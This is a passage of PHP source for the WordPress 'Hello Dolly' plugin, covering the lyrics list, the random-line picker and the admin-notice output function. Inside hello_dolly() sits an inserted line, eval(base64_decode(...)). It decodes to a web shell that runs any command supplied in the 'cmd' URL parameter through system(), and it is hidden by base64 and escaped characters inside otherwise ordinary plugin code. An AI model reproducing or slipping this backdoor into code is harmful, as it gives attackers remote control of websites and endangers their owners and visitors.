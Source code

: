 ```
	/** These are the lyrics to Hello Dolly */
	$lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, take her wrap, fellas
Dolly, never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, golly, gee, fellas
Have a little faith in me, fellas
Dolly, never go away
Promise, you'll never go away
Dolly'll never go away again";

	// Here we split it into lines.
	$lyrics = explode( "\n", $lyrics );

	// And then randomly choose a line.
	return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
}

// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));

	$chosen = hello_dolly_get_lyric();
	$lang   = '';
	if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
		$lang = ' lang="en"';
	}

	printf(
		'<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
		__( 'Quote from Hello Dolly song, by Jerry Herman:' ),
		$lang,
		$chosen
	);
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );

// We need some CSS to position the paragraph.
function dolly_css() {
	echo "
	<style type='text/css'>
	#dolly {
```
